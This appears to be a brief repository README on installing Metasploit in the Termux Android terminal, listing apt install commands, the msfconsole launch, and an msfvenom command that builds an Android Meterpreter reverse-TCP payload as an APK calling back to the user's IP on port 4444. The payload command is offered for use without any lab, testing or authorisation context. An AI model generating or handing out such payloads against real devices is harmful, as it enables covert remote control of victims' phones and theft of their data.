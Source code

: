 # Metasploit



# INSTALLATION IN TERMUX 📱


# Commands
```
apt update && apt upgrade
apt install unstable-repo
apt install metasploit
```

# Single Line Command
```
apt update && apt upgrade && apt install unstable-repo && apt install metasploit
```

# For Fire up
```
msfconsole
```

# For creating payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=(your IP) LPORT=4444 R> payload.apk
```

